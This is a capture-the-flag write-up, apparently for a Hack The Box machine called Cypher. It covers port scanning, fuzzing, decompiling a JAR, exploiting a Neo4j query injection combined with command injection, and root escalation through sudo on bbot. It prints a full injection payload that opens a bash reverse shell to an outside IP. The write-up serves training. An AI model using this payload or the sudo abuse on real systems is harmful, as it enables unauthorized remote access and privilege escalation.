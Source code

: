 ## Machine Information

|                      |             |
| -------------------- | ----------- |
| **Name**             | CYPHER      |
| **Operating System** | Linux       |
| **Difficulty**       | Medium      |
| **IP Address**       | 10.10.11.57 |

## Ports & Services Scanning

Command used: `sudo nmap 10.10.11.57 -sC -sV -v -oN enum.nmap`

![](../__assets/__htb/cypher/nmap.png)
Open ports: 22, 80
_Cannot use port 22 unless credentials are known_

## Port 80 Web Enumeration

_Add cypher.htb in /etc/hosts_

![](../__assets/__htb/cypher/website.png)

### Vulnerablity Scanning using _Nuclei_

Used command `nuclei -u http://cypher.htb -headless`, no usefull result.

### Directory Fuzzing using _ffuf_

Command used: `ffuf -w ~/Downloads/raft-small-words.txt -u 'http://cypher.htb/FUZZ' -c`

![](../__assets/__htb/cypher/ffuf.png)

These is a new directory `testing`, tried accessing it, got a `jar` file, downloaded it.

![](../__assets/__htb/cypher/jar.png)

> Note:
> JAR stands for **Java ARchive**. It's a file format based on the popular ZIP file format and is used for aggregating many files into one.

### Extracting the jar file

Command used: `unzip custom-apoc-extension-1.0-SNAPSHOT.jar -d custom_apoc_ext`

![](../__assets/__htb/cypher/unzipjar.png)

> Neo4j is a native graph database

The `.class` files contains **Java Bytecode** after compiling `.java` files. These are non-human readable files. So, I need to decompile it to `.java` again to read the content of the file.

After searching the internet, I got a tool named `jd-gui` that can decompile `.class` files.

**Download** the tool from **[here](http://java-decompiler.github.io/)**.  
**Install** it in the linux machine (debian) using the command:`sudo dpkg -i ~/Downloads/jd-gui-1.6.6.deb`

Open the tool and navigate to the downloaded `.jar` directory.

![](../__assets/__htb/cypher/jd.png)

The `CustomFunctions` class `getUrlStatusCode(url)` function executes O.S command, so it can be vulnerable to **Command Injection**
Also, the application is using `Neo4j` database for its authentication in `/api/auth` route. So, it can also be vulnerable to **Injection Attack** through which **Command Injection** can be achieved.
I never heard about graph database existence and the name _Neo4j_ so after going through the **docs** I got little knowledge but not enough to try injections.

## Neo4j Injection + Command Injection

I queried _chatGPT_ using its search option to find me basic injection commands for Neo4j. Run the injecton to cause error, if any. The error revealed the query used.

![](../__assets/__htb/cypher/error.png)
![](../__assets/__htb/cypher/error1.png)

Finally, `admin' return h.value as a union CALL custom.getUrlStatusCode(\"http://google.com; bash -c 'bash -i >& /dev/tcp/10.10.16.98/9999 0>&1'\") YIELD statusCode AS a RETURN a;//` worked and I got the reverse shell.

![](../__assets/__htb/cypher/revsh.png)

User `neo4j` cannot reat the user flag, so need to escalate the privilage.

![](../__assets/__htb/cypher/flag.png)

## Privilege Escalation

Downloaded the `linpeas.sh` script from my machine for **information gathering**

![](../__assets/__htb/cypher/privesc.png)
![](../__assets/__htb/cypher/privesc1.png)

Did not got much useful information. So, looked back, I found my mistake. As, I could not read `user.txt`, I moved from that directory and did not checked other files, if they are readable.

There are other readable files in that user, and got a credential. Tried to `ssh` into that user using the crdential and it **worked**.

![](../__assets/__htb/cypher/privesc2.png)

> User Flag retrived.

## Escalate to root user to get the root flag

The user can execute `bbot`executable as root without password.

![](../__assets/__htb/cypher/privesc3.png)

Tried various ways to find flaws in the script, used linpeas.sh to find for more information, nothing worked.
Again, looked back, I found that I overlooked and did not try executing the executable.

There is `-t` flag that is used to specify target, which can be a file as well.

![](../__assets/__htb/cypher/exec1.png)

I know the location of `root.txt`, so passed it to it. It did read the file but this is not the flag.

![](../__assets/__htb/cypher/exec3.png)

There is a `-o` flag to write the output into a file, leveraging it.
![](../__assets/__htb/cypher/exec2.png)
![](../__assets/__htb/cypher/root.png)

> Root Flag retrived
